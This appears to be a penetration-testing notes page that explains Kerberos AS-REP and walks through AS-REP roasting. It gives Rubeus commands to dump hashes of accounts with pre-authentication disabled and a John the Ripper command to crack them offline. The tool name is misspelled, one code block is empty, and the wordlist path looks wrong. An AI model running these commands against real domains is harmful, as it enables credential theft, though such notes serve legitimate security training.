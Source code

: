 #### AS-REP (Authentication Service Reply)
**AS-REP** is the ***Authentication Service response message***, which is used to request a ***Ticket Granting Ticket (TGT)*** in Kerberos. When a client sends an ***AS-REQ*** to the KDC's Authentication Service, it typically includes a ***timestamp encrypted with the user's password hash***. The AS validates this by decrypting the timestamp. 

If successful, it issues an ***AS-REP*** containing two parts: one encrypted with the user's password (session key), and the other being the ***TGT*** for future authentication. This process is known as Kerberos `pre-authentication.`

#### What is an AS-REP roasting attack?
Kerberos authentication uses the `pre-authentication` feature as its ***first measure to prevent offline brute-forcing attacks*** against domain user credentials. **AS-REP roasting** attacks are possible when an account doesn't need `pre-authentication`, having had the feature `disabled` in AD, often for backward compatibilities with legacy Kerberos libraries.

When `pre-authentication` is disabled, a malicious user can directly request authentication info from the DC. This would return a message with an encrypted part of the ticket which can be brute forced offline, also known as AS-REP roasting.

#### AS-REP Roasting with Rubeus
This toolset has an inbuilt function that ***queries the DC for all domain accounts that have `pre-authentication` disabled***, and further ***dumps its hashes***.

**Execute Rubeus**
```powershell
.\Rebues.exe asreproast
```

**Execute Rubeus to Save the Hash in a specific format**
```powershell
.\Rebues.exe asreproast /format:john /outfile:hashes.txt
```

#### Transfer the Hash file to your Kali 
```bash 

```
#### Bruteforce Credentials
```bash
john --wordlist=/var/usr/share/wordlists/rockyou.txt <hashes.txt>
```